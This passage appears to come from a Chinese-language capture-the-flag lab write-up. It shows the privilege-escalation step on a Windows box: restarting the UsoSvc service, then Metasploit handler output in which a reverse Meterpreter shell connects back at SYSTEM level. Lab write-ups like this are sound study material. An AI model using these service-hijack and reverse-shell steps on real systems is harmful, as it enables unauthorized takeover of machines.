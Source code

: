 ```
net stop UsoSvc
net start UsoSvc
```

拿到反弹shell

```
exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Sending stage (200262 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.180:49863) at 2021-12-26 11:20:13 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

需要注意，shell很快就会断掉，需要重新连接。